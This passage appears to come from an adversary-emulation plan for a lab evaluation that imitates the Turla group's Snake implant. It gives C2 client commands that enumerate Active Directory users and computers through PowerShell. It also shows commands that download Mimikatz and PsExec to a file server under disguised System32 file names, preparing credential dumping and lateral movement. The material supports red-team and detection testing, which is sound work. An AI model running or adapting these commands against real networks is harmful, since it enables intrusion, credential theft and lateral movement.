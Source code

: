 * Wait 1 minute before tasking Snake to discover domain users. Ensure
`Zilvinas` and `ZilvinasAdmin` appear in the output.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADUser -Filter {LastLogonDate -ne 0} -Properties * | Select Name,SamAccountName"}'
```

* Finally, wait 1 minute before tasking Snake to obtain a list of domain computers and some of their information (IP addresses, DNS names, and description).
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADComputer -Filter * -Properties * | Select Name,DnsName,IPv4Address,Description"}'
```
:heavy_exclamation_mark: Ensure that `Zilvinas' Workstation` appears in the `Description` field for `uosis`

### :moyai: Source Code

* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [Task download](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Powershell execution](../../Resources/Snake/UserModule/src/execute.cpp#L372)

### :microscope: Cited Intelligence

* TBD

## Step 16 - Preparation for Lateral Movement to Admin Workstation

:microphone: `Voice Track:`

Step 16 emulates Turla performing credential dumping on the file server with the goal of moving laterally to a workstation owned by a Domain Admin.

Snake downloads Mimikatz to the file server and extracts all NTLM hashes on the target. The command output is sent directly to the C2 server.

---

### :biohazard: Procedures

* From the Kali C2 server lower terminal window, task Snake to download Mimikatz to the file server:
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 4, "file": "mimikatz.exe", "dest": "C:\\Windows\\System32\\loadperf.exe"}'
```

* Wait 1 minute and then instruct Snake to download PsExec to the file server:

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 4, "file": "PsExec.exe", "dest": "C:\\Windows\\System32\\fs_mgr.exe"}'
```
